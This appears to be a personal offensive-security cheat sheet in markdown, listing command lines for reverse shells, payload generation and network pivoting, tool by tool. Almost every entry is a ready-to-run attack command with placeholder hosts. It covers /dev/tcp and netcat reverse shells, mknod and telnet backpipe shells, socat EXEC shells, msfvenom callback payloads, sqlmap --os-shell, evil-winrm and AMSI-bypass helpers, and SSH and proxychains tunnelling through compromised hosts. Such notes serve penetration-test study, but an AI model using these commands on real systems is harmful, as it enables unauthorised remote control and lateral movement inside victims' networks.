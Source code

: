 # [/dev/tcp](https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/):
#### `sh -i >& /dev/tcp/X.X.X.X/YYY 0>&1`
  * [archived](https://web.archive.org/web/20190920152858/https://securityreliks.wordpress.com/2010/08/20/devtcp-as-a-weapon/)

# [evil-winrm](https://github.com/Hackplayers/evil-winrm):
#### `evil-winrm -i X.X.X.X -u <username> -p <password>`
#### `evil-winrm -i X.X.X.X -u <username> -p -s <path/to/ps1>`
#### `evil-winrm -i X.X.X.X -u <username> -e <path/on/attack>`
#### `Invoke-Binary <path/to/csharpexe>`
#### `Donut-Loader`
#### `Bypass-4MSI`
  * -s allows you to load powershell scripts from Kali to the victim
  * Invoke-Binary runs C# executables in memory; the executables must be in the path set by the -e flag in the prior command
  * Donut-Loader and Bypass-4MSI look useful but I don't know how to use them yet

# [mknod](https://man7.org/linux/man-pages/man1/mknod.1.html):
#### `mknod /tmp/backpipe p`
#### `/bin/sh 0</tmp/backpipe | nc X.X.X.X YYY 1>/tmp/backpipe`
#### `mknod /tmp/backpipe p && telnet X.X.X.X YYY 0</tmp/backpipe | /bin/sh 1>/tmp/backpipe`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)

# [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows`
#### `msfvenom -p <exploit name> LHOST=X.X.X.X LPORT=YYY -f c -a x86 --platform windows -b "\x00\x0a\x0d"`
  * -p chooses the payload
  * -n prepends a nop sled
  * -a chooses the architecture
  * -b defines bad chars so it won't use them (as a string)
  * -o is the output file
  * -f defines the output format (for instance, a c file)
  * --platform chooses the platform (for instance, windows)
  * LHOST handles the callback ip
  * LPORT handles the callback port

# [ncat](https://linux.die.net/man/1/ncat):
#### `ncat -lnvp YYY`
#### `ncat X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `ncat -lnvp --ssl --allow Z.Z.Z.Z YYY`
#### `ncat X.X.X.X YYY -ssl (/bin/sh or cmd.exe)`
  * basically a netcat rewrite with some updated features
  * --ssl will encrypt the traffic using a temporary key
  * --allow will only allow connections from the specified host

# [netcat](https://linux.die.net/man/1/nc):
#### `nc -lnvp YYY`
#### `nc X.X.X.X YYY -e (/bin/sh or cmd.exe)`
#### `nc -lnvp YYY -e (/bin/sh or cmd.exe)`
#### `nc X.X.X.X YYY`
#### `nc -lnvp YYY > (name.sh or name.exe)`
#### `nc X.X.X.X YYY < (name.sh or name.exe)`
  * -e binds a command
  * -l listens
  * -p is the source port
  * -n prevents DNS lookups on addresses, hostnames, and ports
  
# [netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts):
#### `netsh interface portproxy add v4tov4 listenport=YYY listenaddress=X.X.X.X connectport=BBB connectaddress=A.A.A.A`
#### `netsh advfirewall firewall add rule name="rule_name" protocol=TCP dir=in localip=X.X.X.X localport=YYY action=allow`  
  * Above interface command creates a listener on X.X.X.X:YYY that forwards to A.A.A.A:BBB
  * Above advfirewall command creates a firewall rule that allows inbound traffic to X.X.X.X:YYY

# [proxychains](https://www.unix.com/man-page/debian/1/proxychains/):
#### `cat /etc/proxychains.conf`
#### `socks4 127.0.0.1 YYY`
#### `proxychains command`
  * Combine with `ssh -N -D` to source a given command through a pre-established tunnel
    * For instance you could nmap a machine on an internal network from an already-compromised host on that network

# [rinetd](https://manpages.debian.org/unstable/rinetd/rinetd.8.en.html):
#### `nano /etc/rinetd.conf`
#### `X.X.X.X YYY A.A.A.A BBB (in the conf file)`
#### `service rinetd restart`
  * Redirects traffic received on YYY from X.X.X.X to A.A.A.A:BBB
    * X.X.X.X can be 0.0.0.0 to redirect traffic from any source
  * Restart the service after changing the configuration file to apply changes

# [socat](https://linux.die.net/man/1/socat):
#### `socat - TCP4:X.X.X.X:YYY`
#### `socat TCP4-listen:YYY STDOUT`
#### `socat TCP4:X.X.X.X:YYY EXEC:(/bin/bash or cmd.exe)`
#### `socat TCP4-listen:YYY,fork file:name.txt`
#### `socat TCP4:X.X.X.X:YYY file:name.txt,create`

# [sqlmap](https://web.archive.org/web/20191201191308/https://github.com/sqlmapproject/sqlmap/wiki/Introduction):
#### `sqlmap -u X.X.X.X --crawl=1`
#### `sqlmap -u X.X.X.X/resource.php --dbms=mysql --os-shell`
  * -u specifies the url of the target
  * -l allows you to input an intercept file from burp
  * -f does dbms fingerprinting
  * --crawl does enumeration
  * --os-shell tries to get an interactive shell

# [ssh](https://linux.die.net/man/1/ssh):
#### `plink -l <username> -pw <password> X.X.X.X -R YYY:A.A.A.A:BBB`
#### `ssh -N -D YYY <username>@X.X.X.X`
#### `ssh -N -L X.X.X.X:YYY:A.A.A.A:BBB user@F.F.F.F`
#### `ssh -N -R X.X.X.X:YYY:A.A.A.A:BBB user@X.X.X.X`
  * -R binds a remote server's (X.X.X.X) port (YYY) to the local server's (A.A.A.A) port (BBB) using the remote server's credentials
  * -D specifies a local dynamic application-level port forwarder for tunneling
    * In this case it will forward any traffic to local port YYY to any host on X.X.X.X's network through it's SSH connection
    * Pair this with Proxychains (see [proxies.md](https://github.com/kmanc/offensive_security/blob/master/notes/proxies.md)) for pivoting around a compromised network
  * -N supresses the shell that usually results from SSH
  * -L sets up local port forwarding
    * In this case it forwards X.X.X.X port YYY to A.A.A.A port BBB through an SSH connection on F.F.F.F
  * -R sets up remote port forwarding
    * In this case it forwards X.X.X.X port YYY to A.A.A.A port BBB through an SSH connection on X.X.X.X
  

# [telnet](https://linux.die.net/man/1/telnet):
#### `nc -nlvp YYY`
#### `nc -nlvp ZZZ`
#### `telnet X.X.X.X YYY | /bin/sh | telnet X.X.X.X ZZZ`
  * [archived](https://web.archive.org/web/20210310030514/https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/)
  * Run the top two commands on the attacker machine, then the bottom command on the victim
  * Type commands into the first shell window, then read the output from the second shell window


